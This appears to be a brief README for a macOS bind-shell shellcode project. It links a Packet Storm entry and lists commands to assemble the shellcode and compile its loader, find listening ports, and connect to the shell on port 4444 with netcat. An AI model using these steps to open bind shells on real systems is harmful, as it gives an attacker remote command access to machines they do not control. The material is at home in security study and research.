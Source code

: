 # bindtcp
https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html
# asm compilation
nasm -f macho64 -o ipv4bind.o ipv4bind.s && ld -macosx_version_min 10.7.0 -o ipv4bind ipv4bind.o

# gcc compilation
gcc -o loader loader.c

# FIND OPEN PORTS
netstat -anvp tcp | awk 'NR<3 || /LISTEN/'

# CONNECTING TO BOUND TCP
nc -v 0.0.0.0 4444
